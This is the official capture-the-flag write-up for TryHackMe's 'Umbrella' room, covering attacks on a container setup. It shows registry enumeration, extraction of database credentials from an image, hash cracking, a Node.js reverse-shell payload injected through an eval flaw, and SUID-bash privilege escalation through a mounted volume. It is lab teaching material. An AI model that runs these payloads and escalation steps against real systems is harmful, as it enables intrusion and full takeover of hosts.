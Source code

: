 
# Official Writeup - Umbrella

## Introduction

The TryHackMe Room Umbrella is built around vulnerarbilities and misconfigurations related to containerized environments. As such learners may have to:

- interact with an insecure container registry
- analyze and extract information from docker images
- elevate privileges exploiting a container running as root ([idea](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation#privilege-escalation-with-2-shells-and-host-mount))

Apart from that the ctf also includes:

- basic enumeration
- querying a SQL database
- hashcracking
- exploiting an insecure webinterface

Some effort was put into making the room resemble a realistic scenario. For example the web application containers volume mount serves the purpose of logging events inside the application. Furthermore multiple user accounts exist for the web application and the learner will have to figure out (per trial and error) which one of them reused their password for ssh login to the machine.

The following paragraphs describe the intended killchain.

## Enumeration

```bash
# export IP=<IP>
sudo nmap -sV -sS -PN -vv -p- $IP
```

```
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
3306/tcp open  mysql   syn-ack ttl 62 MySQL 5.7.40
5000/tcp open  http    syn-ack ttl 62 Docker Registry (API: 2.0)
8080/tcp open  http    syn-ack ttl 62 Node.js (Express middleware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We have 4 services running on the remote host. It might be useful to check out whether we can anonymously log into the database, query the registry and take a look at the webpage.

The webpage presents us with a login screen which submits the credentials to the ``/auth`` endpoint. For now this does not prove helpfull.

![LoginPage](Images/LoginPage.png)

Querying the registry reveals a repository with an uploaded image:

```bash
curl $IP:5000/v2/_catalog
# {"repositories":["umbrella/timetracking"]}

 curl $IP:5000/v2/umbrella/timetracking/tags/list
# {"name":"umbrella/timetracking","tags":["latest"]}
```

## Inspecting the image

Since the registry isn't using any tls certificates we first need to add an insecure registry entry to ``/etc/docker/daemon.json``:

```json
{
    "insecure-registries":["10.10.246.98:5000"]
}
```

and then restart the docker service. Now we can take a look at the image:

```bash
sudo service docker restart
sudo docker image inspect $IP:5000/umbrella/timetracking:latest
```

Scrolling down to the environment variable section we find some useful information:

![Image inspect](Images/docker_image_inspect.PNG)

Great, now we have access to the exposed mySQL database using:

- DB_PASS : Ng1-f3!Pe7-e5?Nf3xe5
- DB_USER : root
- DB_DATABASE : timetracking

## Extracting Credentials from the database

```bash
mysql -u root -p -h $IP 
```

We already know which database is used by the web application. Inside there is only one table containing user names and presumably password hashes.

![MySQL enumeration](Images/mysql.png)

Utilizing Hashcat:

```bash
hashcat -m 0 -a 0 "<hash>" /usr/share/wordlists/rockyou.txt  
```

we get:

|user|hash|pass|
|-----|-----|-----|
| claire-r | 2ac9cb7dc02b3c0083eb70898e549b63 | Password1 |
| chris-r  | 0d107d09f5bbe40cade3de5c71e9e9b7 | letmein |
| jill-v   | d5c0607301ad5d5c1528962a83992ac8 | sunshine1 |
| barry-b  | 4a04890400b5d7bac101baace5d7e994 | sandwich |

(get the reference ;))

## Getting 2 Shells

Since the user *claire-r* reused her password ``Password1`` for her system user account we can simply login and extract the user flag:

```bash
ssh claire-r@$IP
cat flag.txt
```

![SSH login](Images/ssh.png)

The claire-r user directory also contains the web applications source code and docker files. Taking a look at these gives us the following information:

- the local logs directory is mounted to the web application container (``docker-compose.yml``)
- the app makes use of an ``eval``-statement in line 71 when posting to the ``/time`` endpoint

In fact there are a couple of ways to find the ``eval``-vulnerability. One could either find it in the source code locally, the container image from registry or by questioning the *Pro Tip* after logging into the web application (using any one of the 4 user accounts extracted from the database):

![Time tracking page](Images/timeTrackPage.png)

Anyhow we can exploit this to spawn a reverse shell inside the web app container:

```bash
nc -lvnp 1234
```

replace the ip adress to your own and paste into time tracking form

```js
(function(){ var net = require("net"), cp = require("child_process"), sh = cp.spawn("sh", []); var client = new net.Socket(); client.connect(1234, "xx.xx.xx.xx", function(){ client.pipe(sh.stdin); sh.stdout.pipe(client); sh.stderr.pipe(client); });  return /a/;})()
```

![Reverse Shell](Images/revshell.png)

## PrivEsc

The final step of this room is to exploit the mounted logs directory with the 2 shells we gathered

- local unprivileged shell
- containerized root shell

We can simply copy the bash binary into the logs directory inside the ssh session:

```bash
cp /bin/bash ./logs
```

and then change ownership and set the suid bit from within the container:

```bash
chown root /logs/bash
chmod 4777 /logs/bash
```

![suid bash binary](Images/bash1.png)

All that remains is to invoke the bash with the ``-p`` option, thereby not changing the effective user id:

```bash
./logs/bash -p
```

And now we have root and can simply pick up the remaining flag.

![root shell](Images/bash2.png)


